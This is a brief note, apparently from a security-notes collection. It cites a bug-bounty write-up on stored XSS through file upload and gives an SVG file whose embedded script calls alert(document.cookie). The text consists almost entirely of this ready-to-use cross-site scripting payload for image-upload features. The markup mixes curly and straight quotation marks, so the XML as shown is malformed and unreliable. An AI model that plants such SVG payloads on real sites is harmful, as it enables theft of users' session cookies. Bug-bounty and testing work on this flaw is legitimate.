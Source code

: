 XSS in .svg file
https://kunalkhubchandani.medium.com/how-i-was-rewarded-a-1000-bounty-after-abusing-file-upload-functionality-to-stored-xss-945a40ac6f94
```
<?xml version=”1.0" standalone=”no”?>
<!DOCTYPE svg PUBLIC “-//W3C//DTD SVG 1.1//EN” “http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version=”1.1" baseProfile=”full” xmlns=”http://www.w3.org/2000/svg">
<polygon id=”triangle” points=”0,0 0,50 50,0" fill=”#009901" stroke=”#004400"/>
<script type=”text/javascript”>
alert(document.cookie);
</script>
</svg>
```
